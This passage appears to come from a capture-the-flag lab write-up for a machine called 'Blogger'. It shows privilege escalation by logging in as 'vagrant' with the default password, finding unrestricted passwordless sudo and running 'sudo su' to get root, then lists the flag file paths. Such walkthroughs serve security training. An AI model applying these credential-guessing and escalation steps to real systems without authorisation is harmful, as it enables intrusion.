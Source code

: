 ![01-Blogger-14](00-Assets/01-Blogger-14.png)

### Method 2
Another way to escalate privileges is guessing the password of another user. In this occasion a common password for the user "vagrant" is the same user:
```shell
su vagrant
vagrant:vagrant
```

```shell
sudo -l

    (ALL) NOPASSWD: ALL
```
![01-Blogger-15](00-Assets/01-Blogger-15.png)
#### Shell as root
```shell
sudo su
```
![01-Blogger-16](00-Assets/01-Blogger-16.png)


# Flags
```shell
/home/james/local.txt
/root/proof.txt
```


